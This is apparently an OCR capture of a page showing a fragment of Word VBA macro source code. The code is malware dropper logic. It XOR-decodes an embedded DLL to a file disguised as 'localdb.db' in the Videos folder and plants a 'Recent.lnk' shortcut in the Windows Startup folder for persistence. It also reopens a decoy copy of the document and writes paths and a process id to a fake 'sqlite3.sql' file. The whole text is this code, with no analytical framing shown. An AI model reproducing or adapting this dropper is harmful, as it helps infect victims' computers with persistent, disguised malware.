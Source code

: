 ```
    tmpBin = bin2var(ntospath)
    
    Set oShape = .InlineShapes(1)
    Set oObject = oShape.OLEFormat.Object
    oObject.SaveAs Environ("temp") & "\" & ThisDocument.Name
    oObject.Close
    Set oObject = Nothing
    
    End With
    
    dllpath = Environ("HOMEPATH") & "\Videos\localdb.db"

    Open dllpath For Binary Lock Write As #1
    
    For inx = 0 To nDllSize
        dllBin(inx) = CByte("&H" + Mid(dllData, inx * 2 + 1, 2))
        dllBin(inx) = dllBin(inx) Xor 163
    Next inx
    
    Put #1, 1, dllBin
    Close #1
    
    lnkPath = Environ("APPDATA") & "\Microsoft\Windows\Start Menu\Programs\Startup" & "\" & "Recent.lnk"

    Open lnkPath For Binary Lock Write As #1
    
    For inx = 0 To nlnkSize
        lnkBin(inx) = CByte("&H" + Mid(lnkData, inx * 2 + 1, 2))
        lnkBin(inx) = lnkBin(inx) Xor 163
    Next inx
    
    Put #1, 1, lnkBin
    Close #1
error:
    Documents.Open Environ("temp") & "\" & ThisDocument.Name
    ThisDocument.Close (wdDoNotSaveChanges)

End Sub

Function widowjgibnow()
    Dim pid, varPath, orgPath, path, objFSO, objFile, strMByte() As Byte, strWide As String

    pid = vwerbethr()

    With ActiveDocument

    varPath = .path & "\" & ThisDocument.Name
    orgPath = Environ("temp") & "\" & ThisDocument.Name

    End With

    path = Environ("temp") & "\sqlite3.sql"

    Const ForAppending = 8

    Set objFSO = CreateObject("Scripting.FileSystemObject")
    Set objFile = objFSO.CreateTextFile(path, True, True)
    
    strMByte = CStr(varPath) & "|" & CStr(orgPath) & "|" & pid
    
    objFile.WriteLine strMByte
    objFile.Close
```